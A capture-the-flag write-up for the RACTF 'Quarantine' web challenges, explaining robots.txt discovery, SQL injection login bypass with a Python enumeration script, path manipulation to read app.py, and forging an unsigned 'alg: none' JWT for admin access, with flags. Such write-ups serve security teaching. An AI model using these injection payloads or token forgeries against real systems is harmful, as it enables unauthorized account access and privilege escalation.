





# Quarantine

There are several flags located on this website, each corresponding to a different challenge. The website in question:



For this writeup I will decribe each task and their solution.

## Hidden Information

> We think there's a file they don't want people to see hidden somewhere! See if you can find it, it's gotta be on their webapp somewhere...

Given the description, I go see the `robots.txt` file. Here is its content:

```
User-Agent: *
Disallow: /admin-stash
```

So let's go to `/admin-stash`, I get the flag.

Flag: `ractf{1m_n0t_4_r0b0T}`

## Quarantine

> See if you can get access to an account on the webapp.

The objective is to get access to a regular account on the webapp. Sadly, signup is not working.


So let's try to get access to an account. In the form, I input `admin` as a username, and try a simple SQL injection with the following password: `' OR '1'='1`. And it kind of work, as I don't get `Incorrect login or password` but I get another error message:


It seems that in the SQL injection, the username disappears... So now I try to login using in the password field `' OR username LIKE '%'`, and once again I have the same error. So I can change the pattern for username match in order to find a unique username!

This Python script does the trick:

```python
import requests

url = "http://88.198.219.20:62277/sign-in"
headers = {"Connection": "keep-alive", 
"Cache-Control": "max-age=0", 
"Upgrade-Insecure-Requests": "1", 
"Origin": "http://88.198.219.20:62277", 
"Content-Type": "application/x-www-form-urlencoded", 
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", 
"Referer": "http://88.198.219.20:62277/sign-in", 
}

def send(password):
    data = "user=admin&pass={}".format(password)
    r = requests.post(url, headers=headers, data=data)
    if "Invalid" in r.text:
        return None
    return r.text

for c in "abcdefghijklmnopqrstuvwxyz":
    answ = send("' OR username LIKE '{}%".format(c))
    if answ is not None:
        print(c)
        print(answ)
```



Flag: `ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}`

## Finding server information

> See if you can find the source, we think it's called app.py

Once we are connected, we can see some videos. When we click the video, we are redirected to the endpoint `/watch/video_name.mp4`. So let's modify the url to display `app.py`.



We get the flag in the page source.

Flag: `ractf{qu3ry5tr1ng_m4n1pul4ti0n}`

## Getting Admin

> See if you can get an admin account.

Last but not least, we need to get an admin account. To distinguish between regular and admin accounts, cookies are probably used, so let's check them.



Here we can see an authentication cookie. It looks like base64, with 2 commas, so this is probably a jwt token. Let's translate it using [jwt.io](https://jwt.io/).



This is a jwt authentication cookie, and we would like to upgrade privilege. However, we do not have the signing secret, so we will not be able to modify and verify the cookie...

The solution is to disable signature verification: if we remove the signing algorithm by replacing `HS256` by `none` in the jwt header, this does the trick. Steps are the following:
- encode the header in base64, with `none` as algorithm
- encode the payload in base64, with more privileges
- concatenate the strings with a dot, and add a final dot (signature is empty).

We get the modified jwt:

```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0.ewogICJ1c2VyIjogIkpvaG4iLAogICJwcml2aWxlZ2UiOiAyCn0.
```

We change the cookie and click on the admin button. This gives us the flag:

Flag: `ractf{j4va5cr1pt_w3b_t0ken}`

